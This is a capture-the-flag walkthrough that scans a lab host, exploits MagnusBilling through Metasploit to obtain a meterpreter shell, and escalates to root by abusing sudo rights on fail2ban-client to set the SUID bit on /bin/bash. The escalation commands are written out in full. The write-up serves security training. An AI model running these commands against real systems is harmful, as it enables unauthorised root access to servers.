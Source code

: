 #### Target Ip :  10.201.76.54

-----------

RustScan 

rustscan -a 10.201.76.54 -- -sC -sV 

![[Pasted image 20251025174816.png]]

We found open ports :  

Open 10.201.76.54:22  
Open 10.201.76.54:80
Open 10.201.76.54:3306
Open 10.201.76.54:5038

![[Pasted image 20251025183606.png]]

These are the service running on the server.

----------------
Then we found a exploit on msf console and the service was MagnusBilling


msf > search MagnusBilling

![[Pasted image 20251025183737.png]]

msf > use 0

msf >show options

![[Pasted image 20251025184034.png]]

msf >set RHOSTS 10.201.89.202

msf >set LHOST 10.17.17.19

msf >run

Now we get the meterpreter session 

![[Pasted image 20251025184353.png]]

Then back to the home directory 

Found total 3 users 

![[Pasted image 20251025184711.png]]

So finally in the magnus user i found the user.txt flag

----------------
Now lets find the root.txt Flag

To do that we have to escalate priviellage

check which service we can use under sudo permission . Before that change the meterpreter shell to normal shell.

meterpreter > shell

sudo -l

![[Pasted image 20251025190512.png]]

we found fail2bn service that have sudo permission......

**fail2ban :** Fail2ban is an open-source intrusion prevention software for Linux that protects servers from brute-force attacks by monitoring log files for suspicious activity and automatically banning malicious IP addresses.

lets exploit these service !!!!!!!!!!

we found a exploit on https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/fail2ban-command/

# Investigation

sudo -l

# Output:

(ALL) NOPASSWD: /usr/bin/fail2ban-client

**If we can execute fail2ban-client command as root, we may be able to escalate privilege and gain a root shell.**

# Exploit : 

## step 1:
### Get jail list

```
sudo /usr/bin/fail2ban-client status
```

## step 2 : 

```
### Choose one of the jails from the "Jail list" in the output.

sudo /usr/bin/fail2ban-client get <JAIL> actions

# Create a new action with arbitrary name (e.g. "evil")

sudo /usr/bin/fail2ban-client set <JAIL> addaction evil

# Set payload to actionban

sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"

# Trigger the action

sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5

# Now we gain a root

/bin/bash -p

```

